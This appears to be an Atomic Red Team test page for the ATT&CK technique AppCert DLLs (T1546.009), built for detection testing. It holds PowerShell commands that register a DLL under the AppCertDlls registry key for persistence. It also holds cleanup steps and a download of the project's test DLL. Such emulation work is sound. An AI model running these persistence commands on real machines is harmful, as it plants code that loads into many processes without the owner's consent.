 # T1546.009 - Event Triggered Execution: AppCert DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/009)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppCert DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppCertDLLs</code> Registry key under <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\</code> are loaded into every process that calls the ubiquitously used application programming interface (API) functions <code>CreateProcess</code>, <code>CreateProcessAsUser</code>, <code>CreateProcessWithLoginW</code>, <code>CreateProcessWithTokenW</code>, or <code>WinExec</code>. (Citation: Elastic Process Injection July 2017)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), this value can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. Malicious AppCert DLLs may also provide persistence by continuously being triggered by API activity. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create registry persistence via AppCert DLL](#atomic-test-1---create-registry-persistence-via-appcert-dll)


<br/>

## Atomic Test #1 - Create registry persistence via AppCert DLL
Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key. 
Once the computer restarted, the DLL will be loaded in multiple processes and write an 
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows


**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | path of dll to use | Path | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll|
| reboot | Set value to $true if you want to automatically reboot the machine | string | $false|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item #{dll_path} C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```




<br/>
